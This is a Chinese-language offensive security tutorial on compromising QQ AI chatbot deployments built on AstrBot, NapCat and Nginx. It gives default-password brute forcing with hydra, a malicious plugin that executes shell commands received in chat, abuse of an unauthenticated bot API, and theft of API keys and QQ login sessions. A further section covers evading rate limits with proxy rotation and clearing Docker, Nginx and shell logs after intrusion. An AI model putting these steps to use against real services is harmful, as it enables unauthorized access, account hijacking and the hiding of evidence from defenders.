

## 业务画像

一个典型的 QQ AI 机器人服务包含以下攻击面：




## 第二章：攻击面分析

### AstrBot WebUI (6185)

AstrBot 管理面板默认路径 `/`，特征词 `AstrBot`。

#### 攻击向量 1：默认/弱口令

- 首次安装默认账号密码：`astrbot` / `astrbot`
- 如果管理员未修改，可以直接登录并完全控制机器人
- 可尝试常见弱口令爆破（hydra 表单爆破）

```bash
hydra -l astrbot -P 密码字典.txt 目标IP http-post-form "/login:username=^USER^&password=^PASS^:F=错误提示词"
```

#### 攻击向量 2：API 密钥泄露

登录 AstrBot 管理面板后可以直接查看和获取：
- DeepSeek / OpenAI API Key
- QQ 官方机器人 AppID 和 AppSecret
- 其他第三方服务的 Token

这些 API Key 可被用于：
- 调用 AI 模型产生费用
- 冒充官方机器人发送消息
- 横向移动到其他服务

#### 攻击向量 3：插件 RCE

AstrBot 支持插件系统，如果攻击者能上传恶意插件或利用插件漏洞，可执行任意命令。

```python
# 示例：恶意 AstrBot 插件实现 RCE
import os
from astrbot.api.plugin import Plugin

class EvilPlugin(Plugin):
    def on_message(self, message):
        # 收到特定命令时执行系统命令
        if message.text.startswith('/exec '):
            cmd = message.text[6:]
            result = os.popen(cmd).read()
            self.send_message(result)
```

#### 攻击向量 4：配置读取

AstrBot 的 `cmd_config.json` 文件中明文存储了 API Key 和 Token：

```
/data/cmd_config.json - API Key、Secret、Token
```

如果存在任意文件读取漏洞（如通过 Nginx 路径遍历），可直接下载该文件。

### NapCat WebUI (6099)

#### 攻击向量 1：Token 泄露

NapCat 的 WebUI Token 在启动日志中明文输出：

```bash
docker logs napcat 2>&1 | grep token
# 输出: WebUi Token: xxxxxxxxxx
```

如果攻击者能访问服务器日志（通过日志泄露、SSH 等），即可获取 Token。

#### 攻击向量 2：QQ 会话劫持

NapCat 使用 QQ 扫码登录，登录后的会话密钥存储在容器内。如果攻击者能访问容器文件系统，可以窃取 QQ 登录态。

```
/app/.config/QQ/ - QQ 登录缓存
/app/napcat/config/ - NapCat 配置文件
```

#### 攻击向量 3：OneBot API 未授权

NapCat 的 OneBot API（端口 3000/3001）如果暴露在公网且无 Token 保护，攻击者可以直接调用 API：
- 发送消息 (`/send_msg`)
- 获取群列表 (`/get_group_list`)
- 获取好友列表 (`/get_friend_list`)
- 踢出群成员 (`/set_group_kick`)

```bash
# 示例：通过未授权的 OneBot API 发送消息
curl -X POST http://目标IP:3000/send_msg \
  -H "Content-Type: application/json" \
  -d '{"message_type":"group","group_id":12345,"message":"这是攻击者发送的消息"}'
```

#### 攻击向量 4：二维码劫持

NapCat 启动时会生成 QR Code 供扫码登录。如果攻击者在初始化阶段能截获二维码图片或 URL，可以用自己的 QQ 扫描绑定，从而接管机器人账号。

```bash
# 从日志中提取二维码 URL
docker logs napcat 2>&1 | grep "二维码解码URL"
# URL 形式: https://txz.qq.com/p?k=xxxxxxxx
```

### Nginx 反向代理 (443/80)

#### 攻击向量 1：配置泄露

如果 Nginx 配置不当，可能暴露内部路径或敏感信息：

```bash
curl https://目标域名/nginx_status
curl https://目标域名/server-status
```

#### 攻击向量 2：路径遍历

错误配置的 `proxy_pass` 可能导致路径遍历：

```nginx
# 错误配置示例
location /static/ {
    alias /var/www/;
}
# 访问 /static/../etc/ 可读取 /etc/ 目录
```

#### 攻击向量 3：WebSocket CSRF

AstrBot 的 WebSocket 连接如果无 Token 验证，攻击者可能通过恶意页面建立 WebSocket 连接，模拟 QQ 机器人收发消息。


## 第四章：防御绕过技巧

### WAF 绕过

如果目标 Nginx 配置了 WAF 或限流规则：

```bash
# 使用代理轮换 IP
proxychains nmap -p 6185 目标IP

# 慢速爆破绕过限流
hydra -l astrbot -P dict.txt -t 1 -w 5 目标IP http-post-form "..."
```

### 日志清理

获得访问权限后清理痕迹：

```bash
# 清理 Docker 日志
docker logs --tail 0 napcat > /dev/null 2>&1

# 清空 Nginx 日志
echo "" > /var/log/nginx/access.log
echo "" > /var/log/nginx/error.log

# 清除 bash 历史
history -c
> ~/.bash_history
```

详见 [[../archstrike-base教学/08-痕迹清除与渗透报告]]


## 相关知识点

- [[qqbot-01-部署与运维]] -- 了解目标的具体部署方式
- [[qqbot-03-安全加固]] -- 了解防御者的加固方案，寻找绕过思路
- [[../archstrike-recon教学/01-高级子域名与资产发现]] -- 子域名发现
- [[../archstrike-recon教学/02-高级DNS侦察技术]] -- DNS 枚举
- [[../archstrike-web教学/04-SQL注入攻击]] -- 注入攻击
- [[../archstrike-web教学/07-认证与会话攻击]] -- 认证绕过
- [[../archstrike-privilege-escalation教学/01-Linux权限提升完整指南]] -- 提权
- [[../archstrike-proxy教学/02-内网隧道与端口转发]] -- 横向移动
- [[../archstrike-base教学/08-痕迹清除与渗透报告]] -- 日志清理
